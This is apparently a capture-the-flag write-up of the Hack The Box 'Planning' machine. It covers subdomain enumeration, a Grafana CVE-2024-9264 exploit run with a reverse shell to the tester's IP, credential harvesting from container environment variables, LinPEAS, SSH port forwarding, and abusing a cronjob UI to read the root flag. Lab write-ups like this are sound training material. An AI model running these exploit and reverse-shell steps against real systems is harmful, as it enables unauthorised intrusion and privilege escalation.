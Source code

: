 - - - 
created : 11-08-2025 

Tags : #easy

Released on 10 May 2025 (Season 8)
- - - 
# Machine Information

As is common in real life pentests, you will start the Planning box with credentials for the following account: `admin / 0D5oT70Fq13EvB5r`
# Recon
## Rustscan - Nmap

First we add the target IP to our /etc/hosts file, then we use [Rustscan](../../../3%20-%20Tags/Hacking%20Tools/Rustscan.md) that will pass the result to [Nmap](../../../3%20-%20Tags/Hacking%20Tools/Nmap.md) with `--` :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Planning]
└─$ rustscan -a planning.htb -- -A 

Open 10.10.11.68:22
Open 10.10.11.68:80

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.24.0 (Ubuntu)

```
# Enumeration
## HTTP (80)

Main page :
![Pasted image 20250811192857.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250811192857.png)
### DirSearch

We'll use [Dirsearch](../../../3%20-%20Tags/Hacking%20Tools/Dirsearch.md) to start [Enumeration](../../../3%20-%20Tags/Hacking%20Concepts/Enumeration.md) on the [Website](../../../3%20-%20Tags/Hacking%20Concepts/Website.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Planning]
└─$ dirsearch -u http://planning.htb 

[19:39:57] Starting: 
[19:40:00] 301 -  178B  - /js  ->  http://planning.htb/js/                  
[19:40:05] 200 -   12KB - /about.php                                        
[19:40:15] 200 -   10KB - /contact.php                                      
[19:40:16] 301 -  178B  - /css  ->  http://planning.htb/css/                
[19:40:21] 301 -  178B  - /img  ->  http://planning.htb/img/                
[19:40:22] 403 -  564B  - /js/                                              
[19:40:23] 403 -  564B  - /lib/                                             
[19:40:23] 301 -  178B  - /lib  ->  http://planning.htb/lib/      

Task Completed                 
```

Nothing interesting.
### Fuff

We use [FFuf](../../../3%20-%20Tags/Hacking%20Tools/FFuf.md) for [Subdomain](../../../3%20-%20Tags/Hacking%20Concepts/Subdomain.md) enum :

```bash                                                                                                 
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Planning]
└─$ ffuf -w ./fuzzDicts/subdomainDicts/main.txt - -H 'Host: FUZZ.planning.htb ' -u http://planning.htb  -fs 178 -c  

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 36ms]
```

We can add it to our /etc/hosts file and login in the page with the given creds:

![Pasted image 20250811223718.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250811223718.png)
# Exploit

[CVE-2024-9264](../../../3%20-%20Tags/CVEs/CVE-2024-9264.md) https://github-com.translate.goog/z3k0sec/CVE-2024-9264-RCE-Exploit?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en

Usage:

```bash
python3 poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.174 --reverse-port 1337
```

First we start our [Netcat](../../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Planning/CVE-2024-9264-RCE-Exploit]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
```

Now we run the command and we have a root shell :

```
# whoami
root
# ls
LICENSE
bin
conf
public
rev.php
```

We can see we are in a Docker environment, we find creds for `enzo` :

```bash
# env
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
AWS_AUTH_EXTERNAL_ID=
SHLVL=1
HOME=/usr/share/grafana
OLDPWD=/home
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
_=ls
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=  'HTB{{REDACTED_PASSWD}}'
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
PWD=/
```
## SSH (22)

We can access on [SSH](../../../3%20-%20Tags/Hacking%20Concepts/SSH.md) with new credentials for the user flag :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Planning/CVE-2024-9264-RCE-Exploit]
└─$ ssh enzo@planning.htb
enzo@planning.htb password: 

enzo@planning:~$ ls
user.txt
enzo@planning:~$ cat user.txt
 HTB{{REDACTED_FLAG}}
```
# Privilege Escalation
## LinPEAS

We can start [Privilege Escalation](../../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) running [LinPEAS](../../../3%20-%20Tags/Hacking%20Tools/LinPEAS.md) on the target machine, first we copy the script via `scp` (ssh) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Planning/CVE-2024-9264-RCE-Exploit]
└─$ scp linpeas.sh enzo@planning.htb:/tmp/
enzo@planning.htb password: 
linpeas.sh                                                      100%  131KB 319.0KB/s   00:00
```

Now we run it :

```bash
enzo@planning:/tmp$ ./linpeas.sh 


[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#internal-open-ports               
Active Internet connections (servers and established)                                             
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:36149         0.0.0.0:*               LISTEN      -                   
tcp        0      0 10.10.11.68:36038       10.10.16.37:4433        ESTABLISHED 7881/uCEnp          
tcp        0      0 172.17.0.1:34608        172.17.0.2:3000         FIN_WAIT2   -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0   3896 10.10.11.68:22          10.10.14.174:51720      ESTABLISHED -                   
udp        0      0 127.0.0.54:53           0.0.0.0:*                           -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.11.68:35328       1.1.1.1:53              ESTABLISHED 21287/bash          

[+] Looking for tables inside readable .db/.sqlite files (limit 100)
 -> Extracting tables from /var/lib/command-not-found/commands.db (limit 20)                                               
                                                                                                                           
 -> Extracting tables from /var/lib/fwupd/pending.db (limit 20)
                                                                                                                           
 -> Extracting tables from /var/lib/PackageKit/transactions.db (limit 20)
                                                                                                                           
 -> Extracting tables from /opt/crontabs/crontab.db (limit 20)
```

the file **/opt/crontabs/crontab.db** can have credentials or open a new attack vector so we open that :

```
enzo@planning:/$ cat /opt/crontabs/crontab.db                                                                              

{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P  HTB{{REDACTED_PASSWD}} /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
```

We have a password, but it's not for the root user on the system. 
## Port Forwarding

[LinPEAS](../../../3%20-%20Tags/Hacking%20Tools/LinPEAS.md) also found open ports which can have **local hosted Websites**, to be able to access that we have to do port forwarding :

```bash                                                                                                                          
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Planning/CVE-2024-9264-RCE-Exploit]
└─$ ssh -L 8000:127.0.0.1:8000 enzo@planning.htb -N

enzo@planning.htb's password: 
```

Now we can access, we have a Cronjobs UI so we can create a new Cronjob :

![Pasted image 20250811232659.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250811232659.png)

this command will copy the text in the root flag **/root/root.txt** to a file named `root` in the `/tmp` directory, after creating the script click **Run now button** and check on the [SSH](../../../3%20-%20Tags/Hacking%20Concepts/SSH.md) shell :

```
enzo@planning:/tmp$ cat root 
 HTB{{REDACTED_FLAG}}
```

Pwned !!